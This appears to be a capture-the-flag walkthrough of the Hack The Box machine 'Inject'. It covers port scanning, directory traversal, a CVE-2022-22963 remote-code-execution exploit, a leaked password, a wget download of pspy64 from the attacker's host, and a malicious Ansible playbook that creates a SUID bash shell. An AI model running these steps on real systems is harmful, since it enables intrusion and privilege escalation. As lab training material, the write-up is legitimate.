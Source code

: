# [Inject](https://app.hackthebox.com/machines/inject)

```bash
nmap -p- --min-rate 10000 10.10.11.204 -Pn  
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8080 10.10.11.204 
```

![Alt text](img/image-1.png)


After accessing application, I can't find interesting thing to hack.

![Alt text](img/image-2.png)


Let's do directory brute-force.

```bash
feroxbuster -u http://10.10.11.204:8080
```

![Alt text](img/image-3.png)


I found `/show-image` endpoint on web application make enumeration on this.

![Alt text](img/image-4.png)


Let's do `Directory Traversal` attack to read system files.

![Alt text](img/image-5.png)


I found `pom.xml` file on `/var/www/WebApp` directory.

![Alt text](img/image-6.png)


Let's read content of this.

![Alt text](img/image-7.png)


I found that there's 'Spring Cloud Function' is used via outdated version '3.2.2' and have `RCE`exploit.

![Alt text](img/image-8.png)


That's [CVE-2022-22963](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

```bash
python3 exploit.py -u http://10.10.11.204:8080/
```


![Alt text](img/image-9.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-10.png)


I found `settings.xml` file which contains sensitive credentials on `frank`'s home directory.

![Alt text](img/image-11.png)


phil: DocPhillovestoInject123


Let's switch into this user via `su - phil` command.


user.txt

![Alt text](img/image-12.png)


I upload `pspy64` file into machine.

1.First, open http server.
```bash
python3 -m http.server --bind 10.10.16.7 8080
```

![Alt text](img/image-13.png)


2.Second, let's download this binary.
```bash
wget http://10.10.16.7:8080/pspy64
```

![Alt text](img/image-14.png)


I see that background job is `ansible_playbook` runs `.yml` files for `/opt/automation` directory.

![Alt text](img/image-15.png)


Let's create malicious `.yml` file which makes copy of `/bin/bash` and add `SUID` binary into this.
```yml
- hosts: localhost
  tasks:
  - name: 'dr4ks owns inject'
    shell: cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks 
```

![Alt text](img/image-16.png)


After this executed , I can see this via `ls -al /tmp/dr4ks`.

![Alt text](img/image-17.png)


Let's execute this binary `./dr4ks -p`.

![Alt text](img/image-18.png)

